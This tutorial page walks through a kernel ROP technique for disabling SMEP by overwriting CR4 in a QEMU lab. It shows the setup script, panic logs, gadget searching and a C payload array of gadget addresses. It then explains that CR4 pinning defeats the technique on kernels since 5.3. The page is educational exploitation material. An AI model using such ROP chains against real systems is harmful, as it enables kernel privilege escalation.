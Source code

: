 ```yaml
---
description: An old technique
---
```


# Kernel ROP - Disabling SMEP

## Setup

Using the same setuo as [ret2usr](../../../types/kernel/kernel-rop-ret2usr.md), we make one single modification in `run.sh`:

```bash
#!/bin/sh

qemu-system-x86_64 \
    -kernel bzImage \
    -initrd initramfs.cpio \
    -append "console=ttyS0 quiet loglevel=3 oops=panic nokaslr pti=off" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    -smp cores=2 \
    -cpu qemu64,+smep \        # add this line
    -s
```

Now if we load the VM and run our exploit from last time, we get a kernel panic.

<details>

<summary>Kernel Panic</summary>

```
[    1.628455] Yes? �U"��
[    1.628692] unable to execute userspace code (SMEP?) (uid: 1000)
[    1.631337] BUG: unable to handle page fault for address: 00000000004016b9
[    1.633781] #PF: supervisor instruction fetch in kernel mode
[    1.635878] #PF: error_code(0x0011) - permissions violation
[    1.637930] PGD 1296067 P4D 1296067 PUD 1295067 PMD 1291067 PTE 7c52025
[    1.639639] Oops: 0011 [#1] SMP
[    1.640632] CPU: 0 PID: 30 Comm: exploit Tainted: G           O       6.1.0 #6
[    1.646144] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.14.0-2 04/01/2014
[    1.647030] RIP: 0010:0x4016b9
[    1.648108] Code: Unable to access opcode bytes at 0x40168f.
[    1.648952] RSP: 0018:ffffb973400c7e68 EFLAGS: 00000286
[    1.649603] RAX: 0000000000000000 RBX: 00000000004a8220 RCX: 00000000ffffefff
[    1.650321] RDX: 00000000ffffefff RSI: 00000000ffffffea RDI: ffffb973400c7d08
[    1.651031] RBP: 0000000000000000 R08: ffffffffb7ca6448 R09: 0000000000004ffb
[    1.651743] R10: 000000000000009b R11: ffffffffb7c8f2e8 R12: ffffb973400c7ef8
[    1.652455] R13: 00007ffdfe225520 R14: 0000000000000000 R15: 0000000000000000
[    1.653218] FS:  0000000001b57380(0000) GS:ffff9c1b07800000(0000) knlGS:0000000000000000
[    1.654086] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    1.654685] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
[    1.655452] Call Trace:
[    1.656167]  <TASK>
[    1.656846]  ? do_syscall_64+0x3d/0x90
[    1.658073]  ? entry_SYSCALL_64_after_hwframe+0x46/0xb0
[    1.660144]  </TASK>
[    1.660835] Modules linked in: kernel_rop(O)
[    1.662360] CR2: 00000000004016b9
[    1.663362] ---[ end trace 0000000000000000 ]---
[    1.664702] RIP: 0010:0x4016b9
[    1.665386] Code: Unable to access opcode bytes at 0x40168f.
[    1.666167] RSP: 0018:ffffb973400c7e68 EFLAGS: 00000286
[    1.668501] RAX: 0000000000000000 RBX: 00000000004a8220 RCX: 00000000ffffefff
[    1.669777] RDX: 00000000ffffefff RSI: 00000000ffffffea RDI: ffffb973400c7d08
[    1.670710] RBP: 0000000000000000 R08: ffffffffb7ca6448 R09: 0000000000004ffb
[    1.672122] R10: 000000000000009b R11: ffffffffb7c8f2e8 R12: ffffb973400c7ef8
[    1.672795] R13: 00007ffdfe225520 R14: 0000000000000000 R15: 0000000000000000
[    1.673471] FS:  0000000001b57380(0000) GS:ffff9c1b07800000(0000) knlGS:0000000000000000
[    1.673854] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    1.674124] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
[    1.674576] Kernel panic - not syncing: Fatal exception
[    1.689999] Kernel Offset: 0x36200000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[    1.695855] ---[ end Kernel panic - not syncing: Fatal exception ]---
```

</details>

It's worth noting what it looks like for the future - especially these 3 lines:

```
[    1.628692] unable to execute userspace code (SMEP?) (uid: 1000)
[    1.631337] BUG: unable to handle page fault for address: 00000000004016b9
[    1.633781] #PF: supervisor instruction fetch in kernel mode
```

## Overwriting CR4

So, instead of just returning back to userspace, we will try to overwrite CR4. Luckily, the kernel contains a very useful function for this: [`native_write_cr4(val)`](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L444). This function quite literally overwrites CR4.

Assuming KASLR is still off, we can get the address of this function via `/proc/kallsyms` (if we update `init` to log us in as `root`):

```
~ # cat /proc/kallsyms | grep native_write_cr4
ffffffff8102b6d0 T native_write_cr4
```

Ok, it's located at `0xffffffff8102b6d0`. What do we want to change CR4 to? If we look at the kernel panic above, we see this line:

```
[    1.654685] CR2: 00000000004016b9 CR3: 0000000001292000 CR4: 00000000001006b0
```

CR4 is currently `0x00000000001006b0`. If we remove the 20th bit (from the smallest, zero-indexed) we get `0x6b0`.

The last thing we need to do is find some gadgets. To do this, we have to convert the `bzImage` file into a `vmlinux` ELF file so that we can run `ropper` or `ROPgadget` on it. To do this, we can run [`extract-vmlinux`](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux), from the official Linux git repository.

```bash
$ ./extract-vmlinux bzImage > vmlinux
$ file vmlinux 
vmlinux: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=3003c277e62b32aae3cfa84bb0d5775bd2941b14, stripped
```

```bash
$ ropper -f vmlinux --search "pop rdi"
0xffffffff811e08ec: pop rdi; ret;
```

### Putting it all together

All that changes in the exploit is the overflow:

```c
// overflow
uint64_t payload[20];

int i = 6;

payload[i++] = 0xffffffff811e08ec;      // pop rdi; ret
payload[i++] = 0x6b0;
payload[i++] = 0xffffffff8102b6d0;      // native_write_cr4
payload[i++] = (uint64_t) escalate;

write(fd, payload, 0);
```

We can then compile it and run.

## Failure

This fails. Why?

If we look at the resulting kernel panic, we meet an old friend:

```
[    1.542923] unable to execute userspace code (SMEP?) (uid: 0)
[    1.545224] BUG: unable to handle page fault for address: 00000000004016b9
[    1.547037] #PF: supervisor instruction fetch in kernel mode
```

SMEP is enabled again. How? If we [debug the exploit](../../../types/kernel/debugging-a-kernel-module.md), we definitely hit both the gadget and the call to `native_write_cr4()`. What gives?

Well, if we look at [the source](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L444), there's another feature:

```c
void __no_profile native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) {
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```

Essentially, it will check if the `val` that we input disables any of the bits defined in `cr4_pinned_bits`. This value is [set on boot](https://elixir.bootlin.com/linux/v6.1.96/source/arch/x86/kernel/cpu/common.c#L507), and stops "sensitive CR bits" from being modified. If they are, they are **unset**. Effectively, modifying CR4 doesn't work any longer - and hasn't since [version 5.3-rc1](https://elixir.bootlin.com/linux/v5.3-rc1/source/arch/x86/kernel/cpu/common.c#L431).
